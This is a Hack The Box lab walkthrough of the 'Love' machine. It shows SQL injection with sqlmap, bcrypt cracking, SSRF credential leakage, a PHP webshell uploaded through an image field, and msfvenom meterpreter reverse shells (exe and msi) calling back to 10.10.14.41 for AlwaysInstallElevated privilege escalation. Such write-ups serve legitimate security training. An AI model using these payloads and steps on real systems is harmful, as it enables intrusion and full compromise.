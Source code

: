 # Love
###### tags: `OSCP`
https://www.hackthebox.eu/home/machines/profile/344

![](https://i.imgur.com/IAl9Fd8.png)

First connect to Hack The Box vpn: 
```shell
openvpn {username}.ovpn
```
![](https://i.imgur.com/2U1WKQP.png)

Seems that my machine is `10.10.14.41`

Then check the target machine
```shell
nmap -sS -sV -A -p- -oN NmapLove.txt 10.10.10.239
```

![](https://i.imgur.com/wVHoDEg.png)

Here we get several web service and domain name: 80(love.htb), 443(staging.love.htb), 5000

Prepare if there's AD exploit in need, let's add domain to host.
```shell
echo 10.10.10.239 love.htb staging.love.htb > /etc/hosts
```

For `http://love.htb`, we get a voting system.

![](https://i.imgur.com/g9B04UW.png)

I cannot find any clue from page's source, so I just use the website title to search with google and I found:
https://www.sourcecodester.com/php/12306/voting-system-using-php.html

![](https://i.imgur.com/vltlzA9.png)

Seems highly similar, use `voting system` as keyword in exploit-db, I found several results.

![](https://i.imgur.com/iK2IkYP.png)

Voting System 1.0 - Time based SQLI (Unauthenticated SQL injection):
https://www.exploit-db.com/exploits/49817
![](https://i.imgur.com/6MXiZgS.png)

Save the request as `love.htb.login`, and then use sqlmap to test it.
```shell
python3 sqlmap.py --dbms=mysql --batch --level=1 --risk=3 -r love.htb.login -p voter
```

![](https://i.imgur.com/L4LEQsd.png)

We in, then we try to find out if any password store in plain text.

![](https://i.imgur.com/x1NYnqt.png)

Let's check `admin` table.

![](https://i.imgur.com/mldfvlW.png)

Here we got the cred: username: `admin` password hash:`$2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC`
This password has been salted, we need to crack it.

![](https://i.imgur.com/qMDTosV.png)

Seems is bcrypt hash, let use hashcat to crack it.

```shell
hashcat -m 3200 -a 0 -o cracked.txt --force adminhash.txt /usr/share/wordlists/rockyou.txt
```

Seems the password is not that weak for us to crack it.

Let's try another vuln, Voting System 1.0 - Remote Code Execution (Unauthenticated):
https://www.exploit-db.com/exploits/49846

![](https://i.imgur.com/3VSjvMx.png)

It's just not work according to session index: `admin` is not set. We still need to find out the password to login.

For `http://staging.love.htb`, we get another website.

![](https://i.imgur.com/0Q8ztCM.png)

```shell
dirb http://staging.love.htb/
```

![](https://i.imgur.com/PGBsvpi.png)

Nothing special.

Let's manually brwose the web, there's a demo page `beta.php`, we get a SSRF? service.

![](https://i.imgur.com/AkyRZvS.png)

For `http://love.htb:5000`, we get third one.

![](https://i.imgur.com/1IG0CIm.png)

Insert the forbidden page to the SSRF provide by `http://staging.love.htb`

![](https://i.imgur.com/gJlqoIr.png)

I got the admin credential:
`admin | @LoveIsInTheAir!!!!`

![](https://i.imgur.com/GtFsOdM.png)

With official document, we know the control panel's URL:
`http://love.htb/admin/index.php`

![](https://i.imgur.com/QKeHpCt.png)

We now need to find a upload point to abuse if it doesn't check the file type.

![](https://i.imgur.com/LreMa1d.png)

Classic, upload the shell in user photo.

![](https://i.imgur.com/ob4Hbbu.png)

With previous infomation from exploit-db, `Voting System 1.0 - Remote Code Execution (Unauthenticated)`, we now that file might store in `/images/`

![](https://i.imgur.com/SndxRPX.png)

Now we can try to get the webshell run.

![](https://i.imgur.com/XNVvhJt.png)

`eval` is reserve symbol on this php version.

Try another:
```php
// or download a reverse shell and modified with nessary change.
// https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/php_reverse_shell.php
<?php
    if(isset($_GET['cmd']))
    {
        echo exec($_GET['cmd']);
    }
?>
```



![](https://i.imgur.com/hzvHVEg.png)

Now we get the username: `phoebe`, let's try `systeminfo` and notice that it's `Windows 10`.

So we can generate the path to the user flag on desktop:
`type c:\users\phoebe\Desktop\user.txt`

![](https://i.imgur.com/lsiYKg1.png)

Now, for root privilege, we need to upload the exploit suggester like: `winPEAS`, `windows exploit suggester` ...etc.

So we need to get a more reliable reverse shell, use `msfvenom` to generate the payload.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.41 LPORT=8888 -f exe > shell.exe
```

![](https://i.imgur.com/NZ8GI2v.png)

Upload the `shell.exe` with same file upload vuln. 

![](https://i.imgur.com/daYOOlx.png)

Now use the previous webshell to execute the reverse shell.

Open `msfconsole` and create a handler:
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.41
set LPORT 8888
exploit
```

![](https://i.imgur.com/hTiBgge.png)

Now we get a reliable shell, let's try to download [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe) and upload to the server.

```
upload winPEASx64.exe
shell
winPEASx64.exe
exit
```

We get serveral suggestion (in red color).

![](https://i.imgur.com/5kQ6QBa.png)

```
Checking AlwaysInstallElevated
    https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
        AlwaysInstallElevated set to 1 in HKLM!
        AlwaysInstallElevated set to 1 in HKCU!
```
According to this [guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated), these permissions allow us to install `*.msi` files as `NT Authority\SYSTEM`. As the guide details, we generate a malicious `.msi` msi file using `msfvenom`. This malicious installer will create a backdoor with administrator privilege. 

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.41 LPORT=8787 -f msi > shell.msi
```

![](https://i.imgur.com/kVbYW0X.png)

Now, upload the new .msi payload.

```
upload shell.msi
shell
shell.msi
exit
background
```

![](https://i.imgur.com/r9oNQZS.png)

Background the `sessions 1`, let's create the second listener for .msi shell
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.41
set LPORT 8787
exploit
```

We get admin privilege, check the flag.

![](https://i.imgur.com/FjCrkrc.png)
